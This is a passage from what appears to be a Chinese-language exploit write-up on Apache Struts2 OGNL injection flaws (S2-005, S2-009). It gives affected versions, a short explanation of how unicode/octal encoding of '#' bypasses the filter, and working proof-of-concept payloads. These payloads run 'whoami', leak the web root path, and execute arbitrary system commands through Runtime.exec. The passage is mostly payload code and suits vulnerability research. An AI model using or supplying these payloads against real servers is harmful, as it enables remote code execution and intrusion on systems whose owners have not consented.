 ```
%{##a=(new java.lang.ProcessBuilder("whoami")).start(),##b=##a.getInputStream(),##c=new java.io.InputStreamReader(##b),##d=new java.io.BufferedReader(##c),##e=new char[50000],##d.read(##e),##matt=##context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),##matt.getWriter().println(new java.lang.String(##e)),##matt.getWriter().flush(),##matt.getWriter().close()}
```

#### Struts2 S2-005

    影响版本: 2.0.0 - 2.1.8.1
    漏洞详情: http://struts.apache.org/docs/s2-005.html


>struts2漏洞的起源源于S2-003(受影响版本: 低于Struts 2.0.12)，struts2会将http的每个参数名解析为ongl语句执行(可理解为java代码)。ongl表达式通过##来访问struts的对象，struts框架通过过滤##字符防止安全问题，然而通过unicode编码(\u0023)或8进制(\43)即绕过了安全限制，对于S2-003漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用OGNL表达式讲这2个选项打开，S2-003的修补方案把自己上了一个锁，但是把锁钥匙给插在了锁头上

上文引用[LittleHann](http://www.cnblogs.com/LittleHann/p/4606891.html)的描述

###### 构造PoC
######## 获取web根目录

```
('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43req\75@org.apache.struts2.ServletActionContext@getRequest()')(d))&(i2)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i97)(('\43xman.getWriter().println(\43req.getRealPath(%22\u005c%22))')(d))&(i99)(('\43xman.getWriter().close()')(d))
```

######## 执行系统命令

```
('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43mycmd\75\'"+cmd+"\'')(d))&(h)(('\43myret\75@java.lang.Runtime@getRuntime().exec(\43mycmd)')(d))&(i)(('\43mydat\75new\40java.io.DataInputStream(\43myret.getInputStream())')(d))&(j)(('\43myres\75new\40byte[51020]')(d))&(k)(('\43mydat.readFully(\43myres)')(d))&(l)(('\43mystr\75new\40java.lang.String(\43myres)')(d))&(m)(('\43myout\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(n)(('\43myout.getWriter().println(\43mystr)')(d))
```

上面2个PoC摘自k8team，为了写PoC，有所改动，但是这里就不贴上来了：）

#### Struts2 S2-009


    影响版本: 2.0.0 - 2.3.1.1
    漏洞详情: https://struts.apache.org/docs/s2-009.html


漏洞利用点跟S2-003和S2-005类似，利用OGNL表达式(1)(2),会执行1的OGNL表达式，009构造了的方法为test=(some OGNL 表达式)(1)&z[(test)(1)]=true。
z[(test)(1)]=true,对struts2来说是合法的参数，但是(test)(1)会执行上述说的方法，test的值被带入计算，造成命令执行。

###### 构造PoC
######## 弹计算器 
ps:实验环境试了好几次都不能执行系统命令，路过的大佬求指教：）
